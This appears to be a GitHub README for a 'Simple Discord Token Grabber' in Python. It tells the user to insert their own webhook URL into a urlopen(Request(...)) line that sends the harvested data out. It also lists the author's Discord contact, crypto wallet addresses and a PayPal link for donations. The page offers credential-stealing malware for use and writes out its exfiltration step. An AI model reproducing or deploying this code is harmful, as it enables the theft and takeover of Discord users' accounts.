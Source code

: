 # Simple-Discord-Token-Grabber
Simple Discord Token Grabber in PYTHON

**Usage**:

PUT YOUR WEBHOOK IN 
**urlopen(Request("PUT YOUR WEBHOOK HERE", data=dumps(webhook).encode(), headers=getheaders()))**

Discord: $MartoBossX#7777 Server: https://discord.gg/ErynDxTV5Y

DONATE:

(Crypto)

BTC: bc1qg85m6x2hc7szny9jf35fvedrn5wmqp7sdznszq

ETH: 0x59b1292D0533932A80e19AaCF0Db4287fc9361Ae

(PayPal)

https://paypal.me/paytowiner
